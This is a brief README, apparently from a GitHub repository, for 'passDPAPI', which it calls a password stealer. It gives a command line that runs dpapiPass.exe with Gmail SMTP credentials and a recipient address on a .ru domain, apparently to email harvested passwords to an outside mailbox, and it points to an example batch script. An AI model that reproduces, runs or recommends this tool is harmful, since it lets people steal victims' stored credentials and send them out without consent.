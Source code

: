 ## passDPAPI
Password's stealer

#### Run
.\dpapiPass.exe smtp.gmail.com email_from@gmail.com password email_to@ex.ru   
For example, you can run /Run/example.bat.
